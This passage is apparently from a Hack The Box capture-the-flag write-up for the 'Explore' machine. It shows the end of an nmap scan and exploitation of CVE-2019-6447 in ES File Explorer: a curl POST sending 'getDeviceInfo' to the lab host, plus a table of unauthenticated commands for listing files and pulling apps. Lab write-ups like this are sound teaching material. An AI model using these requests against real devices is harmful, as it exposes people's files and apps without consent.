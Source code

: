 ```
# Nmap done at Mon Nov  1 09:22:21 2021 -- 1 IP address (1 host up) scanned in 120.26 seconds
```

## Accessing the File System through CVE-2019–6447

There are a number of interesting results from the `nmap` scan, such as an SSH server running on a non-standard port. What we are interesting in, however, is port `42135`, hosting a server named `ES File Explorer Name Response httpd`.

Further research reveals that the service actually creates an HTTP service bound to port `59777`, which initially showed up as a Minecraft server.

Looking for exploits also shows that there has been a CVE assigned, namely `CVE-2019-6447`.

There was a well written article on how to exploit this vulnerability manually, written by the Knownsec 404 Team, titled [Analysis of ES File Explorer Security Vulnerability (CVE-2019–6447)](https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566). The article shows the vulnerable version of the service: `4.1.9.7.4`.

We can then send a crafted `POST` request to execute the command `getDeviceInfo` on our target.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"command":"getDeviceInfo"}' http://explore.htb:59777
```

![getDeviceInfo Results](/images/writeups/htb-explore/getdeviceinfo.png)

The output shows the FTP root directory and the port it is running on. There are more commands available to us, however.

| Command             | Description                                 |
| ------------------- | ------------------------------------------- |
| ``listFiles``       | List all files                              |
| ``listPics``        | List all pictures                           |
| ``listVideos``      | List all videos                             |
| ``listAudios``      | List all audio recordings                   |
| ``listApps``        | List installed applications                 |
| ``listAppsSystem``  | List system applications                    |
| ``ListAppsPhone``   | List commucation related applications       |
| ``listAppsSdcard``  | List applications installed on the SD cards |
| ``listAppsAll``     | List all applications                       |
| ``getAppThumbnail`` | List icons for the specified application    |
| ``appLaunch``       | Start the developed application             |
| ``appPull``         | Download an application from the device     |
| ``getDeviceInfo``   | Get system information                      |
